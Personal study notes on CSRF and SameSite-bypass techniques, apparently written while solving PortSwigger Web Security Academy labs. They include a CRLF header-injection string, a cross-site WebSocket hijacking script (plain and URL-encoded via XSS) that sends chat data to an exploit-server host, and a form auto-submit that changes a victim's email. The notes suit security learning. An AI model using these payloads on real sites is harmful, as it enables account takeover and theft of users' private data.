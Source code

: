 # CSRF

## Testing

1) Change Request method from POST to GET and GET to POST (add `&_method=POST` if not worked for GET)
2) Remove the CSRF key and try if it is working
3) Swap the CSFR token with another valid token by other user
4) Check if the CSRF token is tied to the CSRF cookie
	1) Submit an invalid CSRF token
	2) Submit a valid CSRF token from another user
	3) Submit valid CSRF token and cookie from another user
5) Try to inject HTTP Header (Set-Cookie header)
6) Chain Directory Traversal (Post to GET) to CSRF [[#SameSite Strict bypass via client-side redirect]]
7) Chain subdomain XSS (to bypass same-site:strict) to ping the burp collaborator and send websocket data to the collab url. [[#SameSite Strict bypass via sibling domain]]
8) 


### No defenses

Generate POC directly with Auto Submit

### Token validation depends on request method

Change the Request Type form POST to GET or GET to POST  
Generate PoC and Exploit with Auto Submit

### Token validation depends on token being present

Remove the CSFR token and generate the PoC.  
The Request will be Accept

### Token is not tied to user session

Swap the CSFR token with another valid token by other user.
The request will be Accept.

### Token is tied to non-session cookie

There will be a another CSFR Key (in cookies - defense mechanism) : non-Session Cookie.  
Swap both the CSFR token and CSFR key from a valid account.  
Search for Set Cookie functionality to set the CSFR key from the POC. (We need to set our attacker owned account CSRF Key when we send the link to victim).
Use img tag onerror functionality, and Auto Submit.

### Double Submit Cookie

In this case the application uses Double submit cookie.  
  
where the server does not stores any CSRF cookie.  
  
Instead it uses double submit cookie that is there will be a csrf token along with the session id, and another csrf token in the functionality (csrf parameter sent along with the other parameter).  
  
the server checks the both the CSRF tokens if they match the server accepts.  
  
to exploit this we need to find a vuln parameter that allows to inject HTTP header injection and uses Set-cookie method and add our own (any) CSRF token .  
  
then our csrf token will be set in the HTTP header  
  
and use this and generate CSRF POC with burpsuite.  
  
(the CSRF POC with burpsuite already includes a hidden input of CSRF token and we already set a cookie through parameter. So both are match and request is validated)  
  
/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None


### SameSite Lax bypass via method override

The HTML forms doesn't not support methods like PUT, PATCH etc.  
  
The frameworks like Laravel gives an option to override this.  
  
There is a hidden field in the form i.e. `_method` where it informs the framework to use the specified method rather than the HTTP form method (GET or POST).  
  
This is Called "Method Spoofing"  
  
In this lab there is no Samesite Cookies set. But the Chrome will default it lax.  
  
To exploit generate CSRF POC with burpsuite. Now change the HTTP method to GET and add `_method=POST` at the end of parameter of GET URL.
  
add the new line to the form  

### SameSite Strict bypass via client-side redirect

The cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests.

TO achieve this we need to make a request from the application itself for any functionality.

In this for comment adding there is a confirmation redirect is happening where the ID is directly placing in the JS code. So with this we can do directory traversal.

change the method from POST to GET (change email) copy the parameter and paste it in the confirmation redirect after directory traversal. 

Now Generate CSRF payload

### SameSite Strict bypass via sibling domain

The Subdomain has an XSS Vulnerability. 
In the main domain has a live chat feature with Web Sockets.

The live chat web sockets page is protected with same site strict. So cross origin requests doesn't include session cookie. 

So we are using the XSS from sub domain to make a request to our attacker hosted website with the web sockets previous chat history.

we will send the sub domain page with XSS to the victim. the XSS script will fetch all the chat data and sends to our exploit server. Since the request is comming from the sub domain. we bypassed the same site strict.

Cross-Site Websocket Hijacking Attack:

```
<script>
    var ws = new WebSocket('wss://0aa8004b03ea6683810111d900540004.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };

    ws.onmessage = function(event) {
        fetch('https://exploit-0afe00f703036646819010e501280044.exploit-server.net/exploit?content=' + event.data)
    }
</script>
```

Cross-Site Websocket Hijacking Attack + XSS:

```
<script>
document.location = "https://cms-0aa8004b03ea6683810111d900540004.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%61%38%30%30%34%62%30%33%65%61%36%36%38%33%38%31%30%31%31%31%64%39%30%30%35%34%30%30%30%34%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%66%65%30%30%66%37%30%33%30%33%36%36%34%36%38%31%39%30%31%30%65%35%30%31%32%38%30%30%34%34%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%63%6f%6e%74%65%6e%74%3d%27%20%2b%20%65%76%65%6e%74%2e%64%61%74%61%29%0a%20%20%20%20%7d%0a%3c%2f%73%63%72%69%70%74%3e&password=fwefwefw";
</script>
```


### SameSite Lax bypass via cookie refresh


In this Lax is there. So we have 2 minutes in starting after session cookie was set.
We need to run our script in this two minute time frame.

But it is not possible. The application is using OAuth Social login. So we will craft our payload to send a request to the OAuth page that will initiate a new cookie, then now we have 2 times. we will execute our script after the OAuth completion. 

We will craft our payload to open the OAuth page via `window.open` (open redirect via XSS). But the pop ups are blocking. so we need to trigger onclick window to open the OAuth page and to execute the script.

```
<form method="POST" action="https://0a5000b904add9f780e5dfdc001a00b8.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0a5000b904add9f780e5dfdc001a00b8.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

### CSRF where referrer validation depends on header being present

In this CSRF is preventing by the website based on the referrer header. If we remove the referer header it is working.

We can use the following line in the `<head>` section that indicates no referrer should be there.

```
<meta name="referrer" content="no-referrer">
```


### CSRF with broken Referer validation


The CSRF is blocking based on the referer header. But it is not validating entire referer header. Insecurely validating.

if we are adding `https://attcaker.com/?correct_URL` It is working.

We need to add the below script to achieve this.

```
<script>history.pushState('','','/?0a9e0009033f679984f1dd4a00b70051.web-security-academy.net/my-account')</script>
```

![[Pasted image 20240527204740.png]]